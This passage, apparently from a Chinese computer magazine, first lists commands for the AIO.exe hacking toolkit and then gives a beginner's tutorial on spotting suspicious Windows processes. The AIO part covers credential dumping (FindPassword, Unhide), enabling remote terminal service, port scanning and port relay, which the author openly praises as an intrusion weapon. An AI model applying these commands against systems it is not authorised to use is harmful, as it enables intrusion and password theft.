输入命令：Aio.exe -FHS，这是一个非常不错的功能，可以找出系统中所隐藏的服务。对现在一些可以隐藏服务的木马或病毒，使用这个功能去查找非常有效。如图 6，我的系统中没有隐藏的服务！

图 6 检查隐藏服务

### 9、FGet — FTP 下载

用法：Aio.exe -FGet FTP地址 端口 用户名 密码 要下载文件名

输入命令：Aio.exe -Fget 220.10.23.56 xtaflf 123456 abc.rar，就可以将远程服务器 220.10.23.56 上文件名为 ABC.rar 的文件下载到本地主机的当前目录里（将文件名改为 *.RAR 可以下载所有的 RAR 文件）。

### 10、FindPassword — 得到 NT/2K 所有登录系统用户密码

输入命令：Aio.exe -FindPassword，主要针对 NT/2K 所有登录系统用户密码，在 XP 系统中不能得到密码，只能得到当前的用户名。

### 11、InstallService — 安装服务

输入命令：Aio.exe -InstallService abc 123.exe（abc 为安装后的服务名，123.exe 为安装的服务文件）。

### 12、InstallDriver — 安装驱动

输入命令：Aio.exe -InstallDriver wav test.sys（wav 为安装后的服务名，test.sys 为驱动文件名）。

### 13、KillTCP — 杀掉一个 TCP 连接

在使用这个命令之前，我们要通过系统自带的 netstat -na 来获取当前的 TCP 连接，再使用 KillTCP 来杀掉其中一个 TCP 连接。

用法：Aio.exe -KillTCP 本地IP 本地端口 远程地址 远程端口

输入命令：Aio.exe -KillTCP 60.163.204.195 1034 219.133.48.104 80（将远程 IP 为 219.133.48.104 的 80 端口和本地 IP 为 60.163.204.195 的 1034 端口的连接杀掉），如图 7。

图 7 杀掉 TCP 连接

### 14、LogOff — 注销系统

输入命令：Aio.exe -LogOff 就能注销系统。

### 15、MGet — HTTP 下载文件

输入命令：Aio.exe -Mget HTTP地址 <保存为文件名>（下载来的文件都保存在当前目录下），如图 8。

图 8 AIO 的 HTTP 下载功能

### 16、MPort — 端口和程序关联映射

输入命令：Aio.exe -MPort，可以查看进程所开放的端口情况。

### 17、Never — 将系统账户登录次数重置为 0

输入命令：Aio.exe -Never guest，将 GUEST 用户的登录次数重置为 0，如图 9。

图 9 设置 GUEST 账户登录次数

### 18、PowerOff — 关机、关电源

输入命令：Aio.exe -PowerOff，关闭电源。

### 19、Pslist — 列进程

输入命令：Aio.exe -Pslist，列出当前所有进程。

### 20、Pskill — 杀进程

输入命令：Aio.exe -Pskill PID 或进程名，可以杀掉进程。

### 21、PortScan — 端口扫描（SYN 和 TCP 扫描）

用法：Aio.exe -PortScan Syn|TCP -S 起始地址 -E 终止地址 -P 端口列表 -T 线程数 </Banner> </TS> </S5> </Save>

输入命令：Aio.exe -PortScan Syn -S 60.163.204.195 -P 1-3389 -T 10 /TS，扫描 IP 为 60.163.204.195 的 1-3389 之间所开放的端口。这个命令还有其他很多的用法，有兴趣的朋友可以自己慢慢研究。

### 22、PortRelay — 端口数据转发

输入命令：Aio.exe -PortRelay 26 192.168.0.99 23，将 IP 为 192.168.0.99 的 23 端口转发到 26 端口上，如图 10。

## 23、Reboot — 重启系统

输入命令：Aio.exe -Reboot，就可以重新启动了！

## 24、RemoveService — 删除服务

输入命令：Aio.exe -RemoveService ABC，就能将服务名为 ABC 的服务删除了。

## 25、StartService — 启动服务

输入命令：Aio.exe -StartService ABC，将 ABC 服务启动。

## 26、StopService — 停止服务

输入命令：Aio.exe -StopService ABC，将 ABC 服务停止。

## 27、Sysinfo — 查看系统信息

输入命令：Aio.exe -Sysinfo，查看系统信息，CPU、内存、显卡、硬盘的分区等一些信息，如图 11。

## 28、ShutDown — 关机

输入命令：Aio.exe -ShutDown，关机。

## 29、Terminal — 开启终端服务

输入命令：Aio.exe -Terminal 3389，可以开启 3389 终端服务，并可以自己指定一个端口，如图 12。

## 30、Unhide — 查看星号密码

输入命令：Aio.exe -Unhide。只能针对 NT 系统有效。

## 31、WinInfo — 查看系统账户信息

输入命令：Aio.exe -WinInfo xtaflf，查看系统账户 xtaflf 一些信息等。



没想到一款小小的软件，竟有如此多的功能。在入侵的过程中使用，不得不说它是一款强大的武器！



[文中涉及到的工具 Aio.exe 在光盘中有收录]



> **编辑点评：**
> 看到这个工具，又不禁让我想起了它的“前辈”MT。同样是 40K 左右的身材，功能却同样异常强大。我在网上其他地方也看到过类似 MT 和 AIO 的命令行小工具，似乎都有它们的影子。但是不管怎么说，小编我是爱极了这些小工具。在这里把这款 WinEggDrop 的 AIO 推荐给广大喜欢命令行的朋友！



## 学习计算机进程 保护自己的爱机

- 从本文中你可以学到：
- 进程的概念
- 查找可疑进程的几种方法
- 几种进程相关工具的使用

Windows 系统使用了一种叫“进程”的技术对系统资源进行有效管理。无论执行什么操作都会保证系统资源得到合理的分配，但面对系统运行的各种进程之中，哪些能关闭，哪些不能关闭，非常不容易判断，尤其是机器中中了木马、病毒以及流氓软件这类的恶意软件。不正确的关闭极有可能引起系统崩溃！

### 一、什么是进程

进程是在某个数据集合上运行的、具有一定独立功能的程序，它是系统进行资源分配和调度的一个独立单元。进程分为系统进程和用户进程。系统进程执行操作系统的程序；用户进程运行用户程序。系统进程的优先级通常高于用户进程的优先级。

进程是由程序、数据和进程控制块三个部分组成，所以程序是构成进程的组成部分之一。一个程序可以有一个或多个进程，一个进程亦如此。进程还具有创建其他进程的功能，被创建的进程称为子进程，创建者称为父进程。

### 二、如何查看计算机进程

系统本身提供了一个很好的进程管理软件 Windows 任务管理器。打开方式有：

- 1、通过按键 Ctrl+Alt+Del 或者 Ctrl+Shift+Esc 组合键可以启动它。
- 2、“开始”菜单->“运行”（快捷键 Win+R）输入 taskmgr 命令。

任务管理器的界面如图 1。



看到这么多的进程，想必各位的眼睛都看花了吧。首先大家要了解的是系统进程。从系统出现 LOGO 到桌面，操作系统会加载一系列的进程，那么在繁多进程中哪些才是系统进程？表 1 列出了系统中重要的系统进程。

既然是系统进程，它们基本上是由 SYSTEM 用户执行的。为什么说是基本上？还存在“NETWORK SERVICE”（网络服务）和“LOCAL SERVICE”（本地服务）两个用户，它们是特殊设计，主要是为 IIS 服务。“NETWORK SERVICE”专用于应用程序提供访问网络的足够权限，而且在 IIS 中，无需提升权限即可运行 Web 应用程序。

由自己创建的用户执行的程序得到的进程为用户进程，用户进程的关闭一般影响不大，而系统进程就不一样，随意地关闭就有可能造成系统崩溃！

| 进程名称 | 说明 |
| :--- | :--- |
| Alg.exe | 应用层网关服务，用于网络共享。 |
| Csrss.exe | 客户端服务子系统，用以控制 Windows 图形相关子程序。 |
| Explorer.exe | 桌面环境进程。 |
| Lsass.exe | 负责管理安全策略进程。 |
| Services.exe | 系统服务管理进程。 |
| Smss.exe | 会话管理器，负责启动用户会话。 |
| Spoolsv.exe | 打印任务控制程序。 |
| Svchost.exe | 用于启动时将需要加载的服务列表。因此系统会有多个此进程同时运行。 |
| System.exe | 一组系统底层服务线程的总数，并没有真正意义上的进程映像。 |
| System Idle Process | Windows 页面内存管理进程。 |
| Winlogon.exe | 用于管理用户登录，在按下 Ctrl+Alt+Del 时激活，显示安全对话框。 |

表 1 常见系统进程

对于只知道软件名的程序，如何找到它的进程名？微软替我们想到了。还是任务管理器，选择“应用程序”选项卡，选中你要了解的程序，点击右键，选择最后一项“转到进程”，系统会自动转到“进程”选项卡并选中相对应的进程名。



### 三、如何判断可疑进程

这一直是一个永恒的话题，尤其是对现在猖獗的流氓软件而言。无论是木马、病毒还是流氓软件，只要有程序运行就存在进程。既然有进程，那就有判断的方法：

### 1、通过用户名及其进程名

上面也说了系统进程是由 SYSTEM 用户执行的。如果你发现有其他用户启动了所谓的系统进程，那有可能就是可疑进程，当然除了个别程序。同样的，我们还要牢牢记清楚系统进程的拼写，替换法、互换法都是可疑程序常见的方法。如：把字母 O 改成数字 0，Explorer 改成 Exploror，等等。找到可疑进程，只要在它上面点击右键，选择“结束进程”或“结束进程树”就能结束进程。



### 2、通过进程的路径和加载文件

这种方法是最有效也是最准确的，相应地使用的工具也多。其实系统自带的工具有很多都可以，估计大家几乎不常用，也很少想起来（A 读者：难道是“tasklist /m”和“tasklist /svc”命令？）。嗯……怎么说呢，tasklist /m 是列出所有进程的 DLL 模块，然而没有详细的路径。其中可以指定某个 DLL 模块的所有任务（比如 tasklist /m svchost.exe）；如果没有指定模块名，则显示每个任务加载的所有模块。“tasklist /svc”是显示每个进程的服务，可以作为参考使用。而我们要用到的是“netstat”命令，大家可能经常配合“-an”参数来查看端口和 IP 情况，在此基础上我们再加上一个“-abnov”，执行 netstat -abnov，结果显示有创建连接或端口的进程的端口、IP 以及文件路径列表。若发现可疑进程，直接使用“tasklist”找到相应的 PID 值，再使用 taskkill /pid PID 值来结束进程，当然使用任务管理器结束也可以（若想在任务管理器中查看进程的 PID 值，选择菜单的“查看”->“选择列...”，选中“PID（进程标识符）”）。

看着黑乎乎的界面输入一条条的命令真是麻烦得很，系统中有没有一个 GUI（图形用户界面）而且可以显示路径的软件呢？XP 系统还真有哦！知道是什么吗（A 读者：呃……呃……）？嘿嘿，是系统信息！想不到！Come on，让我们启动它吧：“开始”菜单->“程序”->“附件”->“系统工具”->“系统信息”（快捷方法 Win+R 输入 msinfo32）。稍微等一会儿，因为它需要搜集系统信息才能显示界面，出来后在左边的项目中选择“软件环境”->“正在运行任务”，如图 2。



再稍等一会儿，右边就会列出清单。列出清单的项目还真不少，有名称、路径、优先级、开始时间等等，通过这些信息就可以方便判断进程的真伪性了。遗憾的是，还是需要通过其他软件才可以关闭进程。微软提供的东西都很不错，功能众多但不集于一身，而且功能也不算强大。

网上发布的相关软件也很多，想必大家都会用到 Windows 优化大师这个软件吧，其实它自己附带的进程管理软件就很不错，我使用的是 7.0 版本，如图 3。它是系统自带软件的集合体。查看进程的路径点前面的 + 号，如果还想查看文件属性，直接点击“完整路径”就 OK 了。对于不明白某个进程的话，点“进程描述”，里面有简单的描述。尤其是“说明”，最后标注功能，对初识进程的人很有帮助，它会提示用户是否可以任意结束进程，如图 4。



上网必不可少地要用到防火墙，天网防火墙应该是大家最喜欢也是最多人使用的防火墙之一。在我的使用过程中，发现它也有监视进程的功能。打开它的主窗体，点击图像是耳朵的按钮，下面会列出当前运行并有监听端口的进程，如图 5。

选中你要查看的进程，就会列出监听的端口、协议、名称、路径和版本。这样我们就能很容易地判断进程的真伪性。那么如何删除可疑进程呢？这里有一个固定的步骤：首先记住进程的名称，再选择图像是文件夹的按钮，就会进入你选中的进程的路径；然后选择图像为 X 的按钮关闭你选中的进程；最后切换到进程所在的路径找到它并 Del 掉它。



图 6 使用 Process Explorer 查看进程



图 7 设置 Process Explorer 的进程映像选项

